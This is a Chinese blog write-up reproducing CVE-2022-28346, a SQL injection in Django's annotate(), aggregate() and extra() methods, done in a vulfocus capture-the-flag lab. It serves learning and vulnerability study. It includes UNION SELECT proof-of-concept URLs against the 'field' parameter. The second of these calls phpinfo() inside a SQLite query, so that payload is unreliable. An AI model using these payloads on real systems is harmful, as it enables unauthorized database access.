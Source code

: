 ```yaml
---
title: CVE-2022-28346 Django SQL注入
date: 2023-02-11 17:21:40
tags: [CVE漏洞,SQL注入]
categories: CVE漏洞复现
---
```


###  影响范围：

- 4.0 <= Django < 4.0.4
- 3.2 <= Django < 3.2.13
- 2.2 <= Django < 2.2.28

<!-- more -->

### 一、Django简介

Python下有许多款不同的 Web 框架。Django是重量级选手中最有代表性的一位。许多成功的网站和APP都基于Django，Django 是一个开放源代码的 Web 应用框架，由 Python 写成。



### 二、影响范围

- 4.0 <= Django < 4.0.4
- 3.2 <= Django < 3.2.13
- 2.2 <= Django < 2.2.28



### 三、漏洞简介

 在 2.2.28 之前的 Django 2.2、3.2.13 之前的 3.2 和 4.0.4 之前的 4.0 中发现了一个问题。QuerySet.annotate()、aggregate() 和 extra() 方法会通过精心制作的字典（带有字典扩展）作为传递的 **kwargs 在列别名中进行 SQL 注入



###  四、漏洞复现：

**1.打开靶场环境**

​		在vulfocus靶场中拉取CVE-2022-28346漏洞镜像，将其打开

<img src="CVE-2022-28346-Django-SQL%E6%B3%A8%E5%85%A5/image-20230211173653919.png" alt="image-20230211173653919" style="zoom:80%;" />

**2.访问给出的地址**

http://10.0.0.128:22774

![image-20230211173950989](CVE-2022-28346-Django-SQL%E6%B3%A8%E5%85%A5/image-20230211173950989.png)

通过查看404页面发现目录 demo/

![image-20230211175913032](CVE-2022-28346-Django-SQL%E6%B3%A8%E5%85%A5/image-20230211175913032.png)

进入demo查看，发现报错：

![image-20230211180052845](CVE-2022-28346-Django-SQL%E6%B3%A8%E5%85%A5/image-20230211180052845.png)

报错信息：the annotation 'name' conficts with a field on the model 

使用报错信息 demo?field=demo.name 构造POC 

```http
POC:  http://10.0.0.128:24115/demo/?field=demo.name" FROM "demo_user" union SELECT "1",sqlite_version(),"3" --
```

![image-20230211174011623](CVE-2022-28346-Django-SQL%E6%B3%A8%E5%85%A5/image-20230211174011623.png)

**3.获取flag**

在此注入发现版本号3.34.1，重新改造POC 

```http
POC:  http://10.0.0.128:24115/demo/?field=demo.name" FROM "demo_user" union SELECT "1",phpinfo(),"3" --
```

通过ctrl+F 搜索 flag，取得最终的flag

![image-20230211174718552](CVE-2022-28346-Django-SQL%E6%B3%A8%E5%85%A5/image-20230211174718552.png)

```
flag-{bmh1059bd0b-be31-45cc-bb24-276b1735076f}
```

